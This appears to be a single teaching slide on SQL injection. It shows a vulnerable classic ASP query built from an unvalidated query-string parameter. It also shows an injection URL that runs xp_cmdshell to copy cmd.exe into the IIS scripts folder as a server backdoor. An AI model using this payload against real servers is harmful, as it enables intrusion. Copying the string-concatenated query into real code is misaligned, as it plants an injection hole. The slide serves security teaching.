

# Example
showproducttable.asp

...
sql = "SELECT * FROM products WHERE id=“ & Request.QueryString(“ID”)
…

What will happen?
Extended stored procedure executes the command:
	 copy \winnt\system32\cmd.exe \inetpub\scripts
A server backdoor is created
URL: showproducttable.asp?ID=4%01EXEC+master..xp_cmdshell+
		‘copy+\winnt\system32\cmd.exe+\inetpub\scripts’

SQL: SELECT * FROM products WHERE id=4 EXEC master..xp_cmdshell
		‘copy \winnt\system32\cmd.exe \inetpub\scripts’